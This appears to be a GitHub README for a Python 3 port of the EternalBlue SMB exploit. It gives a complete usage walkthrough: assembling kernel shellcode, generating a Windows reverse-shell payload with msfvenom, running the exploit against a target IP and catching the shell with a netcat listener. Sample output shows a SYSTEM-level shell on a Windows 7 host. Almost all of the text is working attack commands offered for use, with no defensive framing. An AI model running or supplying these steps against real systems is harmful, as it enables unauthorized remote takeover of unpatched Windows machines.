 # EternalBlue-in-Python3

## How to use

### 1. Clone the repository

```
git clone https://github.com/Gabriel-Lima232/EternalBlue-in-Python3.git
```

## 2. Compiling the shellcode(s)

### x64

```
nasm -f bin shellcode/eternalblue_x64.asm -o ./sc_x64_kernel.bin
```

### x86

```
nasm -f bin shellcode/eternalblue_x86.asm -o ./sc_x86_kernel.bin
```

## 3 - Create a Bin

### x64

```
msfvenom -p windows/x64/shell_reverse_tcp LPORT=443 LHOST=127.0.0.1 --platform windows -a x64 --format raw -o sc_x64_payload.bin
```

### x86

```
msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=127.0.0.1 --platform windows -a x86 --format raw -o sc_x86_payload.bin
```

## 4 - Exploit!

```
python3 eternal-blue.py TARGET-IP final.bin
```

### Open NC and wait the connection

```
$ nc -lvnp 443
listening on [any] 443 ...
connect to [0.0.0.0] from (UNKNOWN) [0.0.0.0] 49191
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

